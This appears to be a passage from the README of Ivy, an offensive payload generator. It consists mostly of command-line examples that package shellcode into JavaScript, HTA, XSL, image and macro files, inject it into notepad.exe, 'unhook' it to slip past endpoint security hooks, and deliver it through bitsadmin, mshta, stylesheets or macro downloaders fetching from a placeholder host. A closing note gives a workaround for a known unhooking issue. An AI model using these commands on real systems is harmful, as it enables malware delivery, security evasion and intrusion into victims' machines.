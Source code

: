 ### Stagless Injected payload spawning notepad.exe
```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -process64 C:\\windows\\system32\\notepad.exe -process32 C:\\windows\\SysWOW64\\notepad.exe -O stageless.js
```

### Unhooked Stagless Local payload 
```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -unhook -O stageless.js
```

### Unhooked Stagless Injected payload
```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -unhook -O stageless.js
```

## One Liner Commands Samples

### Non-Executable File Types

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O test.png -stageless
```

### Bitsadmin Command

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.js -url http://ACME.com -delivery bits -stageless
```

### MSHTA.exe Command

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.hta -url http://ACME.com -delivery hta -stageless
```


### Stylesheet Payload
```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.xsl -url http://ACME.com -delivery xsl -stageless
```


### Macro Web Downloader

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.txt -url http://ACME.com/test.txt -delivery macro -stageless
```

# Known Issues
Currently there is a known issue with unhooking the remote injected process. A current work around is to load the [unhook](https://github.com/rsmudge/unhook-bof) BOF, for now.
